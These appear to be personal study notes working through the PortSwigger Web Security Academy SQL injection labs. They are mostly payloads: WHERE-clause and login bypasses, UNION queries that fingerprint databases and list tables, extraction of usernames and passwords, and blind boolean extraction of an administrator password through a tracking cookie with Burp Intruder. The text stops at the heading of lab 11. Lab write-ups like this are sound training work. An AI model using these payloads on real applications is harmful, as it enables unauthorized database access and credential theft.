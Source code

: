 https://portswigger.net/web-security/sql-injection 
https://portswigger.net/web-security/sql-injection/blind
https://portswigger.net/web-security/sql-injection/cheat-sheet
## Labs:
## 1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

SQL injection attack that causes the application to display one or more unreleased products.

	SELECT * FROM products WHERE category = ' OR 1=1--

```
	.../filter?category= ' OR 1=1--
```

## 2. SQL injection vulnerability allowing login bypass

SQL injection attack that logs in to the application as the `administrator` user.

```
.../my-account?id=administrator'--
```

## 3. SQL injection querying the database type and version on Oracle

 ```
 'UNION SELECT'a','b' FROM dual--
```

 Display the database version:
```
 'UNION SELECT 'a', banner FROM v$version--
```

## 4. SQL injection attack, querying the database type and version on MySQL and Microsoft

In Microsoft database we can payload without to specify FROM table, instead we can comment with "#" right after selected columns:
 ```
 'UNION SELECT'a','b'#
```

 Display the database version:
```
 'UNION SELECT 'a', @@version#
 ```

## 5. SQL injection attack, listing the database contents on non-Oracle databases

```
' UNION SELECT 'abc','def'--
```

Retrieve the list of tables in the database and find the name of the table containing user credentials
```
' UNION SELECT table_name, null FROM information_schema.tables--
```

Replacing the table name to retrieve the details of the columns in the table:
```
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users_abcdef'--
```

Replacing the table and column names to retrieve the usernames and passwords for all users:
```
' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
```

## 6. SQL injection attack, listing the database contents on Oracle

```
' UNION SELECT 'a', 'b' FROM all_tables--
```

```
' UNION SELECT 'a', table_name FROM all_tables--
```

```
' UNION SELECT 'a', column_name FROM all_tab_columns WHERE table_name='USERS_EIEFAP'--
```

```
' UNION SELECT USERNAME_LFECQG, PASSWORD_MSPEUR FROM USERS_EIEFAP--
```

## 7. SQL injection UNION attack, finding a column containing text

```
' UNION SELECT 'qHuBUo',null,null FROM information_schema.tables--
```

```
' UNION SELECT null,'qHuBUo',null FROM information_schema.tables--
```

```
' UNION SELECT null,null,'qHuBUo' FROM information_schema.tables--
```


## 8. SQL injection UNION attack, retrieving data from other tables

```
' UNION SELECT null,null--
```

```
' UNION SELECT null, table_name FROM information_schema.tables--
```

```
' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='users'--
```

```
' UNION SELECT username, password FROM users--
```

## 9. SQL injection UNION attack, retrieving multiple values in a single column

```
' UNION SELECT 'a',null--   ERROR 500 (first position is not string based)
```

```
' UNION SELECT null,'a'--   ERROR 200 (so only the second one is)
```

In order to retrieve data we need to do that only on the second position using concatenation:
![[Pasted image 20240627154432.png]]
```
(...)

' UNION SELECT null, username|| '-' ||password FROM users--
```

			![[Pasted image 20240627154411.png]]
			

## 10. Blind SQL injection with conditional responses

We will perform injection based on the session cookie response (welcome back message)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh
```

Blind testing using boolean conditioning
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND 1=1--
```

```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND 1=0--
```

Blind testing for users table
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT 'a' FROM users LIMIT 1)='a'--
```

Testing for username row value = administrator
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT 'a' FROM users WHERE username='administrator' LIMIT 1)='a'--
```

Checking the char. length of the password
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1 )='a'--
```

Using a Sniper Payload for efficiency&speed (found that password length = 20)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>§1§ )='a'--
```

Checking if first character of the password = 'a' using SUBSTRING(field, position, length)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'--
```

Using Cluster Bomb payload for efficiency&speed for all the positions (1-20)(a-z)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§'--
```

## 11. Blind SQL injection with conditional errors
